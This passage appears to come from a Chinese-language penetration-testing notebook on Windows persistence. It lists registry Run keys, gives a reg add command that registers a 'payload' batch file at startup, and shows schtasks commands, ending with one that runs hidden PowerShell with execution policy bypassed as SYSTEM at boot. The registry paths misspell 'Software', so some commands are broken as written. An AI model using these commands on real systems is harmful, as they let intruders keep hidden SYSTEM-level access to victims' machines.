   

   > `# HKEY_CURRENT_USER` 类
   >
   > `HKEY_CURRENT_USER\Softwar\Microsoft\Windows\CurrentVersion\Run`
   >
   > `HKEY_CURRENT_USER\Softwar\Microsoft\Windows\CurrentVersion\RunOnce`
   >
   > `HKEY_CURRENT_USER\Softwar\Microsoft\Windows\CurrentVersion\RunOnceEx`
   >
   > `HKEY_CURRENT_USER\Softwar\Microsoft\Windows\CurrentVersion\RunService`
   >
   > `HKEY_CURRENT_USER\Softwar\Microsoft\Windows\CurrentVersion\RunServiceOnce`

2. `reg add` 命令将 `payload` 添加到注册表启动项中

   `reg add "HKEY_LOCAL_MACHINE\Softwar\Microsoft\Windows\CurrentVersion\Run" /v shell /t REG_SZ /d "C:\Users\Administrator\Desktop\1.bat"`



#### 计划任务维持

##### 计划任务介绍

计划任务是系统常见的功能，利用计划任务，可以将任何脚本、程序或者文档安排在某个指定的时间运行。计划任务会在每次系统启动的时候自动启动并在后台运行。

###### 计划任务的打开方式

1. 【管理工具】-【计划任务程序】
2. 【控制面板】-【计划任务】
3. `taskschd.msc` 命令

##### 计划任务生成方式

1. `schtasks`

   > 在任意用户登录中以 `SYSTEM` 的形式执行计划任务
   >
   > `schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc onlogon /ru System`
   >
   > 在系统启动期间或用户会话处于非活动状态（空闲模式）时执行
   >
   > `schtasks /create /tn 计划任务名 /tr "计划任务执行文件名" /sc onidle /i 30`
   >
   > 在系统启动的时候以 `SYSTEM` 的形式执行计划任务
   >
   > `schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc onstart /ru System`
   >
   > 计划任务以 `SYSTEM` 权限每 10 分钟运行一次
   >
   > `schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc minute /mo 10 ru system`

   > 例： 计划任务进行权限维持（当系统启动时以 `SYSTEM` 用户调取 `powershell` 运行 `shell.ps1`）
   >
   > `schtasks /create /tn shell /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -ExecutionPolicy Bypass -NoExit -File C:\User\Administrator\Desktop\keep\shell.ps1" /sc onstart /ru system`
